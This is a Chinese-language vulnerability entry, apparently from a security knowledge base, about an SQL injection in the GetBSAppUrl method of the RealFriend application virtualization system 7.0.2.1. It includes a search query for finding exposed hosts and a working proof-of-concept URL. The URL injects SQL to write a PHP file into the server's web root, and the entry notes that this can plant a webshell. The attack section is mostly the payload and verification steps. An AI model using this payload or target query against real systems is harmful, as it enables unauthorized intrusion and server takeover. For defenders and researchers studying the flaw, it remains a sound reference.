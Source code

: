 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>瑞友应用虚拟化系统 7.0.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1681181309572-a70542e4-5ec8-4441-bf73-d097a59be7d5.png)



在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![img](../../../.vuepress/public/img/1681187680384-430aaff0-d568-4144-ac8b-bd2ff471e2b3.png)

验证POC

```plain
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![img](../../../.vuepress/public/img/1681188074734-58253667-cdba-4a7e-88ad-87e0d63658cb.png)

```plain
/test7.php
```

![img](../../../.vuepress/public/img/1681181764154-3a7a73d8-20a2-4a11-b837-ac9d0363955b.png)